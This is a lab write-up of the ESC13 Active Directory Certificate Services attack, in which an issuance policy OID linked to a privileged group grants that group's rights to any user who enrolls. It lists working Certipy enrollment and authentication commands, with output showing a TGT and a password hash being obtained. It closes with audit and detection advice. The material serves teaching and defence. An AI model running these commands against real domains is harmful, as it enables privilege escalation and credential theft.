

# ESC13 — Issuance Policy Linked to a Privileged Group

**Impact:** low-priv user enrolling *as themselves* → membership in a privileged group
**Lab status:** ✅ verified (certificate issued & authenticated; OID→group link confirmed)

---

## Concept

ESC13 abuses **`msDS-OIDToGroupLink`** — a feature that ties a certificate
**issuance policy OID** to an AD **group**. When a user authenticates with a
certificate carrying that issuance policy OID, the KDC injects the linked group's
SID into the user's **PAC**, effectively granting group membership *for that
logon*.

If an **enrollable template** carries an issuance policy whose OID is linked to a
**privileged group**, any user who can enroll gets that group's rights — **without
spoofing any identity.** The attacker enrolls as *themselves*; the privilege comes
from the link.



---

## Configuration in the lab

| Object | Value |
|--------|-------|
| Template | `ESC13` (Client Auth, subject from AD, `LabUsers` enroll) |
| Issuance policy | `ESC13-IssuancePolicy` (an `msPKI-Enterprise-Oid`) |
| Group link | policy OID → group **`ESC13-Privileged`** (`msDS-OIDToGroupLink`) |
| Group scope | **Universal** (AD rejects the link on a Global/Domain-Local group) |

Certipy confirms the link:

```
Template Name : ESC13
Linked Groups : CN=ESC13-Privileged,CN=Users,DC=adescrtl,DC=lab
ESC13         : Template allows client authentication and issuance policy is
                linked to group 'CN=ESC13-Privileged,...'
```

---

## Exploitation

Enroll **as lowpriv, with no spoofing at all**:

```bash
certipy req -u 'lowpriv@adescrtl.lab' -p 'Lab12345!' -dc-ip 10.0.0.5 \
  -target DC01.adescrtl.lab -ca ADESC-Root-CA -template ESC13 -out esc13
```

Authenticate:

```bash
certipy auth -pfx esc13.pfx -dc-ip 10.0.0.5
```

```
[*] Got TGT
[*] Got hash for 'lowpriv@adescrtl.lab': ...
```

The returned TGT's PAC now contains the **`ESC13-Privileged`** group SID. In a real
target that group would hold sensitive rights (the escalation is whatever the
linked group grants); in this lab the group is the marker that proves the link
fires.

> **Why no `-upn`/`-sid` spoofing?** ESC13's privilege is granted by the OID→group
> link at authentication time, not by the certificate's subject. The template
> therefore builds the subject from AD (`SUBJECT_ALT_REQUIRE_UPN`); the attacker is
> genuinely `lowpriv`, just with an extra group in the PAC.

---

## Detection & defence

- Audit **`msDS-OIDToGroupLink`** across all issuance policies
  (`Get-ADObject -LDAPFilter '(msDS-OIDToGroupLink=*)' -SearchBase "CN=OID,…"`).
  No policy should link to a privileged group.
- Restrict enrollment on any template carrying such a policy.
- Review issuance policies whenever templates change; alert on new OID→group links.
